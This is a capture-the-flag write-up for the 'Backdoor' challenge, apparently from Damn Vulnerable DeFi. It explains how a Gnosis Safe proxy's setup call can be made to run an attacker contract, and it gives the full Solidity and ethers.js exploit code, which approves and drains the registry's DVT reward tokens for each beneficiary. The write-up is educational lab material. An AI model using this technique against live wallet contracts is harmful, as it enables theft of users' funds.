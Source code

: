 # Challenge #11 - Backdoor
 To incentivize the creation of more secure wallets in their team, someone has deployed a registry of Gnosis Safe wallets. When someone in the team deploys and registers a wallet, they will earn 10 DVT tokens.

 To make sure everything is safe and sound, the registry tightly integrates with the legitimate Gnosis Safe Proxy Factory, and has some additional safety checks.

 Currently there are four people registered as beneficiaries: Alice, Bob, Charlie and David. The registry has 40 DVT tokens in balance to be distributed among them.

 Your goal is to take all funds from the registry. In a single transaction.   

## Gnosis Safe Backdoor injection
In this challenge, we have a vulnerable proxy which allows us to deploy a malicious 
smart contract executing some initializing code with full proxy admin privileges. That, is 
going to allow an attacker to steal the eth that the walletRegistry contract gives as a reward 
for a beneficiary to register.  

The challenge requires to craft the exploit fully in the smart contract in order to execute 
it in a single transaction. In my example there's multiple transactions as I craft the exploit 
mostly with ethersjs in the front-end.  

## Exploit 
In the smart contract I only approve the transfer of tokens:   
```sol
pragma solidity ^0.8.0;

import "hardhat/console.sol";

interface Itoken {
	function approve(address,uint) external returns (bool);
}

contract EXPLOIT_BACKDOOR {
	function exec(address token, address attacker) external {
		Itoken(token).approve(attacker, 10 ether);
	}
}

```
Ethers js exploit:  
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
		// Deploy exploit
		this.exploit = await (await ethers.getContractFactory('EXPLOIT_BACKDOOR')).deploy();
		// Initiate byte code to execute
		const abi = [
			`function setup(        
				address[] calldata _owners,
		        uint256 _threshold,
		        address to,
		        bytes calldata data,
		        address fallbackHandler,
		        address paymentToken,
		        uint256 payment,
				address payable paymentReceiver) external`,
			"function exec(address, address) external "
		];
		const iface = new ethers.utils.Interface(abi);
		const exploitData = iface.encodeFunctionData("exec", [
			this.token.address,
			attacker.address
		]);
		// Create proxy for each benefeciary
		for(let i = 0; i < users.length; i++) {
		const initializerData = iface.encodeFunctionData("setup", [
			[users[i]], 
			1,
			this.exploit.address,
			exploitData,
			ethers.constants.AddressZero,
			ethers.constants.AddressZero,
			0,
			ethers.constants.AddressZero
		]);
		const tx = await this.walletFactory.createProxyWithCallback(
			this.masterCopy.address,
			initializerData,
			i,
			this.walletRegistry.address	
		);
		const reciept = await tx.wait();
		const proxy = reciept.events[2].args.proxy;
		await this.token.connect(attacker).transferFrom(proxy, attacker.address, ethers.utils.parseEther('10'));
		}
    });
```

